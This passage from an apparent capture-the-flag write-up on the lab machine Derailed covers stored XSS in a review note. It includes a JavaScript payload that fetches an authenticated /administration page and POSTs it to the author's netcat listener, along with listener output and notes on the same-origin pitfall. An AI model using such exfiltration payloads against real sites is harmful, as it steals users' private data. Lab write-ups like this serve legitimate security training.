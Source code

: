     
    
    10.10.11.190 - - [19/Jul/2023 18:43:09] "GET /xss.js HTTP/1.1" 200 -
    

This shows that the user on Derailed viewed the XSS note and it worked,
meaning that I can run code in that user’s browser.

## Shell as rails

### Enumerating /administration

#### Fetch

I’m interested in seeing what `/administration` looks like. I’ll write a
JavaScript payload that will fetch that and exfil it to me:

    
    
    fetch('http://derailed.htb:3000/administration')
      .then(resp => resp.text())
      .then(html => { 
        fetch('http://10.10.14.6:9001/exfil', {
          method: "POST",
          body: html,
        })
      });
    

I’ll save this resubmit the note for review. I’ll start `nc` on port 9001 to
capture the POST with the page in the body. After a minute, there’s a hit:

    
    
    oxdf@hacky$ nc -lvnp 9001 > administration.html
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.190 32934
    

One thing to note that code me a bunch of time - The remote `fetch` won’t work
on `http://10.10.11.190:3000` or `http://127.0.0.1:3000`. It has to go for
`derailed.htb`. This is due to same origin policy. It will allow the request
just like above, but then exit with an error just like I saw above. That same
error will likely occur after the POST to my server, but at that point I don’t
care, as I already have the exfil.

#### /administration

I’ll open the page in Firefox, and while the CSS doesn’t load, I can get a
general feel for the page:
